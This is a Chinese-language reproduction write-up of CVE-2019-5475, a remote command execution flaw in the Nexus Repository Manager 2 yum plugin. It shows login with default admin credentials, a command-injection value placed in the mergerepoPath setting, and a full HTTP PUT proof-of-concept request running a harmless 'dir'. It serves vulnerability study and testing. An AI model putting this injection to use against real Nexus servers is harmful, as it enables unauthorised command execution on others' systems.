 （CVE-2019-5475）Nexus2 yum插件RCE漏洞
======================================

一、漏洞简介
------------

该漏洞默认存在部署权限账号，成功登录后可使用"createrepo"或"mergerepo"自定义配置，可触发远程命令执行漏洞

二、漏洞影响
------------

Nexus Repository Manager OSS \<= 2.14.13 Nexus Repository Manager Pro
\<= 2.14.13 限制：admin权限才可触发漏洞

三、复现过程
------------

首先以管理员身份（admin/admin123）登录 然后找到漏洞位置：Capabilities -
Yum:Configuration - Settings

![](./resource/(CVE-2019-5475)Nexus2yum插件RCE漏洞/media/rId24.png)

点击 Save 抓包，更改mergerepoPath后的value值

    C:\\Windows\\System32\\cmd.exe /k dir&

![](./resource/(CVE-2019-5475)Nexus2yum插件RCE漏洞/media/rId25.png)

此处使用 /k 是因为这样命令执行完会保留进程不退出，而 /c
后执行完会退出；由于给用户提供的命令后面加了一个
\--version，所以后面要加个&，&表两个命令同时执行，这样就不会干扰其他命令的执行

Poc如下：

    PUT /nexus/service/siesta/capabilities/00012bdb034073a3 HTTP/1.1
    Host: 127.0.0.1:8081
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json,application/vnd.siesta-error-v1+json,application/vnd.siesta-validation-errors-v1+json
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    X-Nexus-UI: true
    Content-Type: application/json
    X-Requested-With: XMLHttpRequest
    Content-Length: 241
    DNT: 1
    Connection: close
    Referer: http://127.0.0.1:8081/nexus/
    Cookie: NXSESSIONID=105c7cb1-a307-43a3-9ff8-9770b5ae3b13






    {"typeId":"yum","enabled":true,"properties":[{"key":"maxNumberParallelThreads","value":"10"},{"key":"createrepoPath","value":"111"},{"key":"mergerepoPath","value":"C:\\Windows\\System32\\cmd.exe /k dir&"}],"id":"00012bdb034073a3","notes":""
